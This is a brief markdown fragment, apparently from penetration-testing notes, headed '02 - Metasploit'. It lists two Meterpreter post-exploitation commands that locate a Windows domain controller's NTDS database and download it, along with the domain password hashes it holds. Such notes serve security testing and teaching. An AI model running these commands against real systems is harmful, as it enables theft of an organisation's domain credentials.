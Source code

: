 # 02 - Metasploit

```
meterpreter > run post/windows/gather/ntds_location

meterpreter > run post/windows/gather/ntds_grabber cleanup=true download=true
```